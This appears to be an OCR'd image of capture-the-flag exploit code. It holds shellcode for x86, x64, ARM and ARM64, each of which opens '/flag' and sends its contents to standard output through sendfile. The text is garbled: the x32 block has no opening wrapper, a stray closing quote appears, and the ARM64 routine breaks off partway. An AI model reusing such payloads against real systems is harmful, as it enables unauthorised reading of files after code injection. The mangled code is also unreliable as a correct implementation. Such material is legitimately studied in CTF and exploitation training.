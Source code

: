 ```python
mov eax,cs
mov ebx,0x23
sub eax,ebx
jnz x64
x32:
    mov ebx, 0x67
    push ebx
    mov ebx, 0x616c662f
    push ebx
    mov eax, 5
    mov ebx, esp
    xor ecx, ecx
    int 0x80
    mov ebx, 1
    mov ecx, eax
    xor edx, edx
    mov esi, 1000
    mov eax, 0xbb
    int 0x80
x64:                                     
''')# open sendfile(1, fd, NULL, 1000); eax=0xbb

x64_sc = compile_x64('''
    mov rbx, 0x67616c662f
    push rbx
    mov rax, 2
    mov rdi, rsp
    xor rsi, rsi
    syscall
    mov rdi, 1
    mov rsi, rax
    xor rdx, rdx
    mov r10, 1000
    mov rax, 40
    syscall
''')# open sendfile(1, fd, NULL, 1000);40

arm_sc = compile_arm('''
    adr  r0, flag
    eor  r1, r1
    eor  r2, r2
    mov  r7, #5
    svc  0
    mov  r1, r0
    mov  r0, #1
    eor  r2, r2
    mov  r3, #100
    mov  r7, #0xbb
    svc  0
flag:
	.ascii "/flag"              
''')# r7 svc  r0/r1/r2

arm64_sc = compile_arm64('''
    adr  x1, flag
    mov  x2, #0
    mov  x0, x2
    mov  x8, #56
    svc 0
    /* call sendfile(1, 'x0', 0, 0x7fffffff) */
    mov  x1, x0
    mov  x0, #1
    mov  x2, #0
```